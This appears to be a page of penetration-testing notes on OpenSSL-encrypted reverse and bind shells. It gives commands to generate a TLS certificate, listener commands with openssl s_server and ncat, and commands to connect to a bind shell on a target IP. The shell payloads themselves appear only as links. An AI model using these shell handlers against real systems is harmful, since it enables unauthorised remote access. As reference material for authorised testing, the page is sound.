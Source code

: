 # OpenSSL

## 01 - Reverse Shell

- Generate TLS certificate.

```
user@pentestos:~$ openssl req -x509 -newkey rsa:4096 -days 365 -nodes -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email> -keyout private.key -out certificate.crt
```

- Shell handler.

```
user@pentestos:~$ openssl s_server -quiet -key private.key -cert certificate.crt -port <PORT>

user@pentestos:~$ ncat --ssl --ssl-key private.key --ssl-cert certificate.crt -lp <PORT>
```

## 02 - Bind Shell

- Shell handler

```
user@pentestos:~$ openssl s_client -quiet -connect <target_IP>:<target_PORT>

user@pentestos:~$ ncat --ssl <target_IP> <target_PORT>
```


---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/C - Initial Access/02 - Callback Shells/OneLiners/Linux/Reverse Shells/OpenSSL|OpenSSL: Reverse Shells]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/C - Initial Access/02 - Callback Shells/OneLiners/Linux/Bind Shells/OpenSSL|OpenSSL: Bind Shells]]